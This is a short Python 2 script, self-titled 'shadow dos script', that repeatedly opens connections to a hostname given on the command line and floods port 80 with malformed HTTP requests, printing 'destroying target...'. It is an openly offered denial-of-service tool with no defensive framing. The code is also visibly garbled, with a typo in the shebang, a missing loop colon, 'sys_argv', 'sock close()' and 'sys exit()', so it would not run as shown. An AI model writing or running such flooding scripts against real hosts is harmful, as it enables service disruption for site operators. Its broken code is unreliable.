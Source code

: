 #1/usr/bin/env python2

import socket
import sys
import os

os.system("clear")
print "\n"
print ("shadow dos script\n")

try:
   for s in range (1, 99999)
     sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     server_ip = socket.gethostbyname(sys.argv[1])
     port = 80
     sock.connect((sys.argv[1], port))
     print ("\033[32mConnected to target IP ") + server_ip
     print ("033[31mdestroying target...\n")
     sock.send("GET / 65500 HTTP/1.1\r\n")
     sock.send("HOST : " + sys_argv[1] + "\r\n\r\n"):
     sock close()
except socket.error:
   print ("\033[31mConnection lost...\033[0:0m")
except KeyboardInterupt:
   print ("\n\033[31mUser shutdown...\n\033[0:0m")
   sys exit()
except IndexError:
   os.system("clear")
   print "\n"
   print ("Usage: python2 shadow.py www.example.com")
   print ("Usage ./shadow.py www.example.com\n")
   sys exit ()
